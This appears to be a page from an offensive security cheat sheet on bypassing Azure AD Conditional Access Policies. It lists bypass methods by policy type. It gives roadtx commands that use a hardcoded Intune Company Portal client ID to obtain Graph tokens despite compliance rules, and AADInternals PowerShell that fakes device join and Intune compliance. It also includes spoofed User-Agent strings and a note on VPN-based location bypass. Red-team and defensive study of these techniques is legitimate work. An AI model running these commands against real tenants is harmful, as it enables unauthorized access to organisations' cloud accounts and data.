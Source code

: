 # Azure AD - Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


## Bypassing CAP by faking device compliance

### Intune Company Portal Client ID Bypass

Use Intune Company Portal Client ID (`9ba1a5c7-f17a-4de9-a1f1-6178c8d51223`), to run roadrecon even when there is a device compliance policy. it is a hardcoded and undocumented exclusion in Conditional Access for device compliance and has the `user_impersonation` rights on the AAD Graph.

* Client ID: `9ba1a5c7-f17a-4de9-a1f1-6178c8d51223`

```ps1
roadtx gettokens -u $username -p $password -r msgraph -ua $windows_ua -c 9ba1a5c7-f17a-4de9-a1f1-6178c8d51223 # limite scope
roadtx gettokens -u $username -p $password -r aadgraph -ua $windows_ua -c 9ba1a5c7-f17a-4de9-a1f1-6178c8d51223 # user_impersonation scope
```

### AAD Internals - Making your device compliant

```powershell
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache

# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"

# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 

# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"

# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```

## Bypassing CAP with device.trustType

The trustType property is an internal attribute that defines the relationship between the device and Azure AD.
When the condition of CAP is `device.trustType -eq "<TYPE>"`, the values can be:

* `AzureAD`: Azure AD joined devices
* `Workplace`: Azure AD registered devices
* `ServerAD`: Hybrid joined devices


## Bypassing CAP with user agent

There are several devices you can use to authenticate and interact with a service.
Try several `User-Agent` to get access to the resources:

* Windows: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 GLS/100.10.9939.100`
* Linux: `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 uacq`
* macOS: `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 uacq`
* Android: `Mozilla/5.0 (Linux; Android 13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.117 Mobile Safari/537.36`
* iOS: `Mozilla/5.0 (iPhone; CPU iPhone OS 15_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/98.0.4758.85 Mobile/15E148 Safari/604.1`
* WindowsPhone: `Mozilla/5.0 (Windows Phone 10.0; Android 4.2.1; Microsoft; Lumia 650) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.85 Safari/537.36`


## Bypassing CAP with location

Try different IP locations using a VPN.